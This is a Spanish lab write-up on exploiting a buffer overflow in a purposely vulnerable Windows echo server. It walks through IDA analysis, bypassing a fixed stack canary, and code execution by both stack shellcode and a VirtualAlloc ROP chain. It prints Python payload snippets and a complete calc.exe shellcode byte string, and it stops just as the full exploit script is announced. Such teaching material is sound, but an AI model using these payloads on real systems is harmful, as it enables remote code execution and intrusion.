> **TL;DR** — Partimos de un servidor eco para Windows (binario PE32 + código fuente C++) y, a base de ingeniería inversa y análisis de la pila, encontramos un fallo clásico pero demoledor: el programa confía en la longitud que le dice el cliente. Ese descuido nos abre la puerta a sobrescribir la pila, saltarnos una *canary cookie* y, finalmente, ejecutar nuestro propio código. Lo haremos de dos formas: la "fácil" (ejecutando directamente en la pila) y la "elegante" (mediante ROP), y terminaremos con las medidas que habrían evitado todo esto.
{: .prompt-tip }

## Introducción

Imagina un programa que, antes de leer un mensaje, te pregunta: *"¿cuántos bytes me vas a enviar?"*. Y tú, como cliente, le respondes con un número. El programa se fía de tu palabra y reserva... Bueno, en realidad **no reserva nada nuevo**: lee tantos bytes como le digas dentro de un espacio de tamaño fijo. ¿Qué pasa si le dices que vas a mandar cuatro mil millones de bytes en un hueco de 512? Exactamente lo que estás pensando: se desborda. Y donde hay desbordamiento, hay oportunidad.

En este post partiremos de un ejecutable (PE32) y un código fuente (C++) que implementan la funcionalidad de un servidor eco mediante sockets de Windows. El objetivo consiste en identificar y explotar una vulnerabilidad de *Buffer Overflow* documentando el proceso seguido.

A lo largo del artículo recorreremos el camino completo del *exploiting* de binarios, desde entender qué hace el programa hasta conseguir ejecución de código arbitraria con una prueba de concepto funcional.

### Objetivos del post

- Analizar el funcionamiento de un ejecutable C++ mediante ingeniería inversa (IDA) y estudio de la pila.
- Detectar y validar una vulnerabilidad de *Buffer Overflow* en la recepción de mensajes.
- Explotarla con dos metodologías distintas: ejecución directa en pila y *Return-Oriented Programming* (ROP).
- Evadir mecanismos de mitigación como la *canary cookie*.
- Desarrollar una PoC en Python que demuestre el impacto real del fallo.
- Proponer medidas de seguridad que mitiguen la vulnerabilidad.

### Alcance

El trabajo se realizara en un entorno de laboratorio controlado: un servidor eco propio, compilado sin protecciones, que escucha en local. No se trata de un producto real ni de un servicio en producción; es un objetivo didáctico pensado para aprender las técnicas en un terreno seguro.

**Conocimientos previos recomendados**

- Nociones de C/C++ y de cómo funciona la pila de llamadas (*stack frame*, dirección de retorno, registros `eip`/`ebp`/`esp`).
- Fundamentos de ensamblador x86 y de representación hexadecimal / *endianness*.
- Familiaridad con herramientas de análisis: IDA, Immunity Debugger y el plugin **mona**, además de `msfvenom` para generar *shellcodes*.
- Programación básica en Python para construir el *exploit* y manejar *sockets*.

No te preocupes si alguno de estos conceptos te suena lejano: iremos explicándolos a medida que aparezcan.

## Análisis del servidor eco

Antes de romper nada, hay que entender qué tenemos entre manos. El programa es un **servidor eco**: un servicio que recibe un mensaje y lo devuelve tal cual, como un eco. Veamos su función principal.


_Imagen 1. Función main del servidor eco._

En el código se inicializa el servidor creando un socket TCP en IPv4 que escuchará peticiones de cualquier dirección IP en el puerto 16000. Después se carga la DLL `MSVRCT2.dll` de manera dinámica y se comienzan a aceptar peticiones y a manejarlas mediante `handle_connection`. Dicha función se encarga de leer los mensajes recibidos y reenviarlos al cliente de la siguiente manera.


_Imagen 2. Manejador de conexión del servidor eco._

Aquí está la clave del asunto. La función espera recibir primero la longitud del mensaje en bytes y después el mensaje en sí para reenviarlo, es decir, espera recibir un mensaje con la siguiente estructura.

| LONGITUD | MENSAJE |
| --- | --- |
| 10 | Hola Mundo |

| LONGITUD | MENSAJE |
| --- | --- |
| 0x00000010 | 0x486f6c61204d756e646f |

Finalmente se comprobará que la *cookie* inicializada no ha cambiado su valor para verificar que no ha habido *Buffer Overflow* y se esperará a la siguiente conexión.

## Explotación

Tras haber comprendido el funcionamiento del código fuente y haber analizado la función que maneja la conexión, se ha detectado un problema.

En la primera llamada a `recv` que se puede ver en la Imagen 2 se guardan los 4 primeros bytes del mensaje en la variable `len` y después se continúa leyendo con la segunda llamada a `recv`, que recibe tantos bytes como se hayan guardado en la variable `len` y los almacena en el *buffer*. El problema es que con 4 bytes se pueden representar hasta 4.294.967.296 valores, al tratarse de un entero sin signo. El mensaje, por tanto, podría tener más de cuatro mil millones de caracteres; sin embargo, la capacidad del *buffer* es de tan sólo 512 bytes. Esto quiere decir que, si la longitud es menor de 512 no habrá problemas, pero si esta es mayor se podrá sobrescribir otras zonas de memoria (teniendo en cuenta la *canary cookie*).

Una vez analizado el código e identificada la vulnerabilidad, para seguir explorando y poder llegar a explotarla se seguirá la metodología vista durante las sesiones, partiendo del análisis preliminar del código fuente realizado.

### Detección de la vulnerabilidad

Como se ha comentado, el código presenta una vulnerabilidad, ya que la longitud del mensaje (los bytes que leerá la función `recv`) puede ser mucho mayor al tamaño del *buffer* reservado para el mensaje.

Para poder empezar a explotar la vulnerabilidad habrá que analizar el desensamblado del código fuente e identificar sus partes en IDA. La pila de la función `handle_connection` quedaría de la siguiente forma.


_Imagen 3. Pila de la función handle_connection en IDA._

Es decir, se guardan los 512 bytes del *buffer* y los 12 bytes de la *cookie*, la longitud y los bytes recibidos en ese orden.

También en las últimas instrucciones se puede ver cómo se comprueba que el valor de la *cookie* no se haya modificado.


_Imagen 4. Comprobación de la canary cookie._

### Validación

A pesar de haber detectado la vulnerabilidad es necesario validar que esta se puede explotar de manera correcta. Para ello habrá que elaborar un *exploit* en Python que se conecte al servidor eco mediante *sockets* y envíe un *payload* que permita sobrescribir la dirección de retorno para llevar la ejecución del programa hacia nuestro código. Por tanto, será necesario calcular el número de bytes necesarios para sobrescribir dicha dirección y controlar posibles caracteres inválidos o problemáticos, así como el *endianness*.

Antes de comenzar a elaborar el mensaje que se enviará al servidor conviene conocer si el ejecutable cuenta con algún tipo de protección a la hora de compilar que nos impida ejecutar código en ciertas partes de la memoria o que aleatorice las direcciones, ya que pueden suponer un contratiempo al desarrollar el *exploit*.

Para ello se utiliza el plugin de **mona** en Immunity Debugger, en concreto, `!mona modules`.


_Imagen 5. Protecciones de los módulos cargados del servidor eco._

Como se puede observar en la imagen, tanto el propio ejecutable (`echo_server.exe`) como la librería cargada de forma dinámica (`MSVRCT2.dll`) no cuentan con ninguna protección como SafeSEH, ASLR o DEP, por lo que parece que se podría explotar sin mayores complicaciones.

Conociendo el funcionamiento del programa y la disposición de la pila (Imagen 3), si se quiere sobrescribir la dirección de retorno habrá que:

- Enviar más de 512 bytes para sobrescribir el *buffer*.
- Enviar los 4 bytes de la *cookie* (`0x95125613`).
- Enviar 8 bytes de relleno, 4 para `len` y 4 para `recvBytes`.
- Enviar 4 bytes para sobrescribir la base de la pila `ebp`.
- Finalmente, enviar los 4 bytes de la dirección de retorno que modifica `eip`.
- Añadir la longitud total del mensaje y enviar al servidor.

En total: `512 + 4 + 8 + 4 + 4 = 532 bytes`.

A continuación, se genera el siguiente *payload* y se depura la aplicación en IDA para verificar que la pila se sobrescribe tal y como se espera.

```python
payload = "A"*512 + struct.pack("<I", 0x95125613) + "AAAA" + "AAAA" + "BBBB" + "AAAA"
msg = struct.pack("<I", len(payload)) + payload
s.send(msg)
```
_Código 1. Extracto del payload inicial de validación._


_Imagen 6. Estado de la pila tras el envío del payload._

> Los bytes de `recvBytes` han vuelto a ser sobrescritos por `0x214` (532) ya que se asignan a dicha variable en el código tras ser recibidos.
{: .prompt-info }

Si continuamos la ejecución hasta el retorno se nos muestra el siguiente error.


_Imagen 7. Error al intentar saltar a la dirección 0x41414141._

El error nos muestra que la validación de la *cookie* ha sido satisfactoria, ya que se ha logrado llegar hasta el retorno de la función, y que la vulnerabilidad se puede explotar, pues se ha conseguido sobrescribir la dirección de retorno a `0x41414141` (AAAA) y por tanto falla, pues dicha región de memoria no puede ser ejecutada.

### Payload y ejecución del exploit

Por último, tras haber identificado y validado la vulnerabilidad de *Buffer Overflow*, en este apartado se procederá a realizar la explotación como tal, que nos permita redirigir la ejecución del programa a una zona controlada mediante la sobrescritura de la dirección de retorno que manipula el `eip` para ejecutar un *shellcode*.

Este *exploit* se puede realizar de múltiples maneras, ya que no se cuenta con ninguna protección en el binario como se vio en la Imagen 5. En este caso se llevarán a cabo dos. En la primera se ejecutará directamente el código en la pila, mientras que en la otra se optará por simular que se cuenta con una protección de ejecución, lo cual impide introducir directamente el *shellcode* en la pila y apuntar a él directamente con una dirección de la pila en el *payload*, como en el primer caso.

#### Ejecución en la pila

La explotación del *Buffer Overflow* siguiendo esta técnica es muy sencilla, ya que no se cuenta con ninguna protección. Para ello simplemente hay que sustituir del *payload* del Código 1 los 4 bytes "AAAA" correspondientes a la dirección de retorno por una dirección que apunte a una zona cercana de la pila. A continuación, se añade un «colchón» de instrucciones `nop` y el *shellcode* que se quiere ejecutar.

```python
shellcode = b""
shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0"
shellcode += b"\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b"
shellcode += b"\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61"
shellcode += b"\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2"
shellcode += b"\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11"
shellcode += b"\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3"
shellcode += b"\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6"
shellcode += b"\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
shellcode += b"\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b"
shellcode += b"\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24"
shellcode += b"\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
shellcode += b"\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
shellcode += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb"
shellcode += b"\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
shellcode += b"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47"
shellcode += b"\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c"
shellcode += b"\x63\x2e\x65\x78\x65\x00"
payload = "A"*512 + struct.pack("<I", 0x95125613) + "AAAA" + "AAAA" + "BBBB" + struct.pack("<I", 0x0018FF34) + "\x90"*8 + shellcode
msg = struct.pack("<I", len(payload)) + payload
s.send(msg)
```
_Código 2. Payload para ejecutar shellcode mediante pila._

El *shellcode* que se utilizará será el necesario para abrir una calculadora en Windows, ya que este código no realiza acciones maliciosas y es bastante visual, lo cual nos sirve para comprobar la correcta ejecución del *payload*. No obstante, el código que se puede añadir al *shellcode* es arbitrario; siempre y cuando se cumplan una serie de prerrequisitos se podría ejecutar cualquier cosa, como por ejemplo una sesión de *meterpreter*.

Tras ejecutar el anterior *payload*, en las siguientes imágenes se puede ver cómo se ha sobrescrito la pila correctamente, cómo se ejecutan los `nop` y finalmente cómo aparece la calculadora después de haberse ejecutado el *shellcode*.


_Imagen 8. Pila sobrescrita con shellcode tras exploit._


_Imagen 9. Ejecución de nops en pila._


_Imagen 10. Ejecución de la calculadora tras el exploit._

#### ROP

Para sobrepasar la restricción de no poder ejecutar código directamente en la pila (zona de memoria no destinada a la ejecución de código) se hará uso del **ROP** (*Return Oriented Programming*).

La programación orientada a retorno consiste en modificar la ejecución del programa mediante la encadenación de una serie de instrucciones legítimas que terminen en un retorno (*gadgets*), por ejemplo, las presentes en alguna librería, que modifiquen los registros del sistema de una manera específica tal que nos permita obtener ejecución de código en zonas no destinadas a la ejecución.

En concreto, se quieren encontrar instrucciones que al ejecutar la instrucción `pushad` (que vuelca el contenido de los registros a la pila) dejen la pila en el siguiente estado.


_Imagen 11. Disposición final de los registros tras ejecutar PUSHAD._

Al final lo que se consigue es disponer la pila de la misma forma que si se hubiese llamado a la función `VirtualAlloc` en el código (ya que tiene la dirección de retorno y los argumentos de la función en posiciones más altas de memoria). Es como si se inyectara la función de `VirtualAlloc` en el código con unos parámetros en concreto.

Encontrar estas instrucciones de forma manual es una tarea ardua, por lo que se utilizará el plugin de **mona** en Immunity Debugger para encontrar los *gadgets*.

Tras ejecutar `!mona rop`, esta obtiene de los módulos cargados por el ejecutable un conjunto de instrucciones en diversos lenguajes para poder llamar a las funciones de `VirtualAlloc` o `VirtualProtect`.


_Imagen 12. ROP_CHAIN de Python para llamar a VirtualAlloc._

Principalmente las instrucciones han sido de `MSVRCT2.dll`, que era una librería cargada dinámicamente que no tenía ninguna protección.

La función `VirtualAlloc` nos permite asignar un espacio de memoria con una serie de permisos y será utilizada con los siguientes parámetros.


_Imagen 13. Llamada con parámetros a VirtualAlloc._

Dicho de otra forma, se le indicará:

- La dirección para asignar (`lpAddress`).
- El tamaño (`dwSize`), en este caso de un byte (`0x1`), ya que el tamaño de asignación mínimo es de una página (`0x1000` bytes), por lo que con tan sólo indicar un byte ya se contaría con el tamaño de una página en total.
- El tipo de reserva (`flAllocationType`), en este caso `0x1000`, que corresponde a `MEM_COMMIT`, es decir, una reserva de memoria.
- Los permisos (`flProtect`), en este caso `0x40`, que corresponde a `PAGE_EXECUTE_READWRITE`, es decir, lectura, escritura y ejecución.

Tras añadir y ejecutar el `rop_chain` en el lugar de la dirección de retorno se puede comprobar cómo la pila almacena todos los valores tal y como se mostró en la Imagen 11.


_Imagen 14. Estado de la pila tras el buffer overflow con ROP._

Una vez ejecutado el *rop chain* solo faltaría añadir una serie de instrucciones `NOP` (`0x90`) al *payload* y a continuación el *shellcode* con la carga útil a ejecutar. De esta manera se asignaría un nuevo espacio de memoria donde se tienen permisos de ejecución y se redirigiría el flujo del programa hacia el código que se quiere ejecutar.

De la misma manera que en el caso anterior, el *shellcode* que se utilizará para validar la explotación será el que ejecuta el proceso de la calculadora, por las razones comentadas con anterioridad.

```python
rop_chain = create_rop_chain()
payload = "A"*512 + struct.pack("<I", 0x95125613) + "AAAA" + "AAAA" + "BBBB" + rop_chain + "\x90"*8 + shellcode
msg = struct.pack("<I", len(payload)) + payload
s.send(msg)
```
_Código 3. Extracto del payload final con shellcode._

Por tanto, el *payload* final quedaría de la siguiente forma.

> La función `create_rop_chain()` se corresponde al código mostrado en la Imagen 12.
{: .prompt-info }

No obstante, al añadir el anterior *shellcode* el programa falla. En concreto, al ejecutar la segunda llamada a `recv` (la encargada de leer el mensaje en sí en función de la longitud establecida), esta devuelve un error y la ejecución termina. El error devuelto es el `10014`, que corresponde a `WSAEFAULT`, el cual es un problema con la dirección de algún puntero tal y como explica la documentación de Microsoft.


_Imagen 15. Estado de EAX antes de ejecutar la llamada a recv por segunda vez._


_Imagen 16. Estado de EAX después de ejecutar la llamada a recv por segunda vez._

En la anterior imagen se puede ver cómo la llamada a `recv` devuelve un error `-1` (`0xFFFFFFFF`).


_Imagen 17. Valor obtenido de WSAGetLastError en EAX._

El valor de error concreto es `0x271E`, que en decimal corresponde con el valor `10014`, que representa la constante que se muestra en la siguiente imagen.


_Imagen 18. Error devuelto por recv._

Esto parece deberse a la longitud del *shellcode*, ya que con versiones reducidas del mismo sí que se reciben y sobrescriben los datos de manera correcta, aunque no se llega a ejecutar la calculadora, ya que el código está incompleto. Debido a que los datos anteriores del *payload* (`rop_chain`, *canary cookie*, relleno del *buffer*, …) son necesarios para llevar a cabo el desbordamiento, habrá que buscar un *shellcode* más pequeño que encaje en el espacio de memoria. Esto no es sencillo, ya que el *shellcode* tiene una longitud muy reducida, de unos 193 bytes (no se puede reducir más), y el máximo permitido son aproximadamente entre 133 y 150 bytes adicionales.

Puesto que las opciones en `msfvenom` de *shellcodes* más pequeños a dicha cantidad es poca, se optará simplemente por añadir unas instrucciones que modifiquen algún registro sin llegar a hacer nada de manera gráfica o maliciosa. En concreto se añadirán cuatro instrucciones `inc eax` (`0x40`), para ilustrar la inserción de código mediante ROP.

La siguiente imagen muestra la ejecución de los `NOP` insertados y el estado de `eax` antes de ejecutar las instrucciones `inc`.


_Imagen 19. Estado de EAX antes de ejecutar instrucciones INC._

Tras ejecutar las instrucciones se puede comprobar que el registro `eax` aumentó en 4.


_Imagen 20. Estado de EAX después de ejecutar las instrucciones de INC._

## Exploit.py

A continuación, se adjunta en el Código 4 el script en Python utilizado para la explotación de la vulnerabilidad de *Buffer Overflow* en el servidor eco.

